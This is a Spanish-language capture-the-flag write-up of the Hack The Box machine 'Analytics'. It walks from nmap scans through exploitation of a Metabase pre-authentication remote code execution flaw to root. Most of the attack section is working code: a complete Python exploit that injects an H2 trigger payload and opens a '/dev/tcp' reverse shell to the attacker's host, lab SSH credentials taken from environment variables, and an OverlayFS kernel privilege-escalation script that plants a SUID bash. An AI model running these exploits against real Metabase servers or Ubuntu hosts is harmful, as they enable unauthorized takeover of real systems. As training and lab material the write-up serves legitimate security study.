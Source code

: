 # Introducción
---
La máquina Analytics de Hack The Box se centra en la plataforma Metabase, presenta una combinación de vulnerabilidades que van desde una RCE pre-autenticación hasta una escalada de privilegios a través de una vulnerabilidad en el kernel.
Este write-up detalla el proceso de enumeración, explotación y escalada de privilegios para obtener acceso al usuario y obtener el control total del sistema.

# Reconocimiento
---
`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.233 -oG ports`

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-15 13:48 -03
Initiating SYN Stealth Scan at 13:48
Scanning 10.10.11.233 [65535 ports]
Discovered open port 80/tcp on 10.10.11.233
Discovered open port 22/tcp on 10.10.11.233
Completed SYN Stealth Scan at 13:48, 14.93s elapsed (65535 total ports)
Nmap scan report for 10.10.11.233
Host is up, received user-set (0.16s latency).
Scanned at 2023-12-15 13:48:24 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.22 seconds
           Raw packets sent: 73134 (3.218MB) | Rcvd: 72895 (2.916MB)
```

`nmap -p 22,80 -n -Pn -sCV 10.10.11.233 -oN openPorts`

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-15 13:50 -03
Nmap scan report for 10.10.11.233
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.80 seconds
```

En la fase inicial, se realizó una extensa enumeración de puertos utilizando [Nmap](https://nmap.org/).
La dirección IP se resolvió mediante la configuración del archivo `/etc/hosts`:
`echo "<target-ip>  analytical.htb data.analytical.htb" >> /etc/hosts`

Se identificaron los servicios en los puertos 22 y 80, este último redirigiendo a `http://data.analytical.htb`. Este redireccionamiento es crucial para la posterior explotación de Metabase.

# Descubrimiento de la vulnerabilidad
---
La investigación reveló una vulnerabilidad pre-autenticación en Metabase, específicamente [CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646). Este fallo permite la ejecución remota de código, proporcionando acceso al servidor.
Un minucioso detalle acerca de la vulnerabilidad se encuentra en [Pre-Auth RCE in Metabase (CVE-2023-38646)](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/).

# Explotación de la Vulnerabilidad
---
Se creó un script en Python para aprovechar la vulnerabilidad, estableciendo una conexión inversa al servidor objetivo. El script aprovecha la vulnerabilidad para ejecutar una shell interactiva, permitiendo al atacante el control total del sistema.

```python
#!/usr/bin/python3

import sys, signal, requests, json, base64, threading, argparse
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

# ctrl + c
signal.signal(signal.SIGINT, def_handler)

def get_arguments():
    parser = argparse.ArgumentParser(description="Analytics Reverse Shell")
    parser.add_argument("-lh", "--lhost", dest="lhost", required=True, help="Your IP (Ex: -lh 192.168.0.1)")
    parser.add_argument("-lp", "--lport", dest="lport", required=True, help="Listening port (Ex: --lport 1234)")
    options = parser.parse_args()

    return options.lhost, options.lport

def get_setup_token():
    response = requests.get("http://data.analytical.htb/api/session/properties", verify=False)
    data = response.json()
    setup_token = data.get("setup-token")
    return setup_token

def create_payload(lhost, lport):
    payload = f"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1"
    payload_base64 = base64.b64encode(payload.encode()).decode()
    return payload_base64

def get_reverse_shell():
    shell_url = "http://data.analytical.htb/api/setup/validate"    
    headers = {"Content-Type": "application/json"}
    shell_data = {
        "token": setup_token,
        "details": {
            "is_on_demand": False,
            "is_full_sync": False,
            "is_sample": False,
            "cache_ttl": None,
            "refingerprint": False,
            "auto_run_queries": True,
            "schedules": {},
            "details": {
                "db": f"zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{payload_base64}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x",
                "advanced-options": False,
                "ssl": True
            },
            "name": "an-sec-research-team",
            "engine": "h2"
        }
    }
    response = requests.post(shell_url, headers=headers, data=json.dumps(shell_data))

if __name__ == '__main__':
    
    lhost, lport = get_arguments()

    setup_token = get_setup_token()
    print(f"\n[+] Setup token: {setup_token}\n")

    payload_base64 = create_payload(lhost, lport)

    threading.Thread(target=get_reverse_shell, args=()).start()

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()
```

Con el acceso adquirido a través de la vulnerabilidad de Metabase, se procedió a investigar y descubrir credenciales almacenadas en las variables de entorno (`env`). Se identificaron las siguientes credenciales:

```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Estas credenciales permitieron el acceso mediante SSH al servidor objetivo. Utilizando el comando:
```bash
ssh metalytics@<target-ip>
An4lytics_ds20223#
```

Se estableció una conexión SSH exitosa, otorgando acceso al sistema como el usuario `metalytics`.
## User Flag
---
Una vez dentro del sistema, se ubicó la user flag en el directorio `/home/metalytics`.
# Escalada de privilegios
---
La fase de escalada de privilegios aprovechó una vulnerabilidad en el kernel [CVE-2023-2640 Detail](https://nvd.nist.gov/vuln/detail/CVE-2023-2640) detectado con el comando `uname -rs`.

Se utilizó un script con el comando `unshare` para obtener privilegios de root. Posteriormente, se obtuvo acceso al sistema como el usuario `root`.

```bash
#!/bin/bash

tmp_bash=/var/tmp/bash

echo -e "\n[+] Comprobando si el archivo '/var/tmp/bash' existe"

if [ -e "$tmp_bash" ] && [ -u "$tmp_bash" ]; then
	echo -e "\n[+] El archivo bash existe y tiene permisos SUID"
	ls -l /var/tmp/bash
	echo -e "\n[+] Ganando acceso como root\n"
	/var/tmp/bash -p
else
	echo -e "\n[!] El archivo $tmp_bash no existe\n"
	unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
fi
```

## Root Flag
---
Con privilegios de root, se localizó la root flag en el directorio `/root`.